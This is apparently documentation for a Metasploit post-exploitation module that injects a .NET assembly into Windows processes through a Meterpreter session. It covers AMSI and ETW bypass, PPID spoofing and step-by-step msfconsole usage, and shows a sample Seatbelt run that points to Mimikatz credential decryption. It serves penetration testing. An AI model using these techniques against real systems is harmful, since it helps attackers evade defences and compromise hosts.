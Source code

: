 # Execute .Net assembly via Meterpreter session

This module executes a .NET Assembly from a Meterpreter session

It uses Reflective DLL injection to load HostingCLRx64.dll needed to run
.NET assembly. This can be done either within the meterpreter session, or
by injecting into a new or existing process.

The unmanaged injected DLL takes care of verifying if the
process has already loaded the CLR, and loads it if necessary. The
version of the CLR to be loaded is determined by parsing of the assembly
provided and searching for a known signature. Then it runs the assembly
from memory.
Before loading the assembly in the context of the CLR, AMSI is bypassed
using the AmsiScanBuffer patching technique.
(https://rastamouse.me/2018/10/amsiscanbuffer-bypass-part-1/)

You'll find details at [Execute assembly via Meterpreter session](https://b4rtik.blogspot.com/2018/12/execute-assembly-via-meterpreter-session.html)

## Verification Steps

### Example 1: Run within the same process

  1. Build or download a .NET project
  1. Buid project with target framework that is present on the host
  1. Start msfconsole
  1. Do: ```use post/windows/manage/execute_dotnet_assembly```
  1. Do: ```set SESSION sessionid```
  1. Do: ```set TECHNIQUE SELF``` (to run within our own process)
  1. Do: ```set DOTNET_EXE /your/output/folder/SeatBelt.exe```
  1. Do: ```set ARGUMENTS user```
  1. Do: ```run```
  1. The assembly should run.

```
msf5 post(windows/manage/execute_dotnet_assembly) > run

[*] Launching notepad.exe to host CLR...
[+] Process 10628 launched.
[*] Reflectively injecting the Host DLL into 10628..
[*] Injecting Host into 10628...
[*] Host injected. Copy assembly into 10628...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] 
[+] 
[+]                         %&&@@@&&                                                                                  
[+]                         &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
[+]                         &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
[+] %%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
[+] #%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
[+] #%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
[+] #####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
[+] #######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
[+] ###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
[+] #####%######################  %%%..                       @////(((&%%%%%%%################                        
[+]                         &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
[+]                         &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,                                 
[+]                          #%%%%##,                                                                                 
.........
.........
.........
[+]   [*] Use the Mimikatz "dpapi::cred" module with appropriate /masterkey to decrypt
[+] 
[+] 
[+] === Checking for RDCMan Settings Files (Current User) ===
[+] 
[+] 
[+] 
[+] [*] Completed Safety Checks in 11 seconds
[+] 
[*] End output.
[+] Killing process 10628
[+] Execution finished.
[*] Post module execution completed
```

  ## Example 2: Run in existing process

  1. Build or download a .NET project
  1. Buid project with target framework that is present on the host
  1. Start msfconsole
  1. Do: ```use post/windows/manage/execute_dotnet_assembly```
  1. Do: ```set SESSION sessionid```
  1. Do: ```set TECHNIQUE INJECT``` (to run within an existing process)
  1. Do: ```set PID 8648```
  1. Do: ```set DOTNET_EXE /your/output/folder/SeatBelt.exe```
  1. Do: ```set ARGUMENTS user```
  1. Do: ```run```
  1. The assembly should inject into process 8648.

  ## Example 3: Run in new process

  1. Build or download a .NET project
  1. Buid project with target framework that is present on the host
  1. Start msfconsole
  1. Do: ```use post/windows/manage/execute_dotnet_assembly```
  1. Do: ```set SESSION sessionid```
  1. Do: ```set TECHNIQUE SPAWN_AND_INJECT``` (to run within a new process)
  1. Do: ```set PPID 8648``` (optional PPID spoofing)
  1. Do: ```set PROCESS notepad.exe``` (process to launch)
  1. Do: ```set USETHREADTOKEN false``` (whether to launch the process under the current impersonation context)
  1. Do: ```set DOTNET_EXE /your/output/folder/SeatBelt.exe```
  1. Do: ```set ARGUMENTS user```
  1. Do: ```set KILL true``` (kill the spawned process once the assembly has completed - default: true)
  1. Do: ```run```
  1. The assembly should run.

## Options

```

Module options (post/windows/manage/execute_dotnet_assembly):

   Name        Current Setting         Required  Description
   ----        ---------------         --------  -----------
   AMSIBYPASS  true                    yes       Enable AMSI bypass
   ARGUMENTS                           no        Command line arguments
   DOTNET_EXE  ~/SeatBelt.exe          yes       Assembly file name
   ETWBYPASS   true                    yes       Enable ETW bypass
   SESSION                             yes       The session to run this module on
   Signature   Automatic               yes       The Main function signature (Accepted: Automatic, Main(), Main(string[]))
   TECHNIQUE   SELF                    yes       Technique for executing assembly (Accepted: SELF, INJECT, SPAWN_AND_INJECT)


   When TECHNIQUE is SPAWN_AND_INJECT:

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   PPID                             no        Process Identifier for PPID spoofing when creating a new process (no PPID spoofing if unset)
   PROCESS         notepad.exe      no        Process to spawn
   USETHREADTOKEN  true             no        Spawn process with thread impersonation


   When TECHNIQUE is INJECT:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   PID                    no        PID  to inject

```

### Advanced options:

```

   Active when TECHNIQUE is SPAWN_AND_INJECT:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   KILL  true             yes       Kill the launched process at the end of the task

```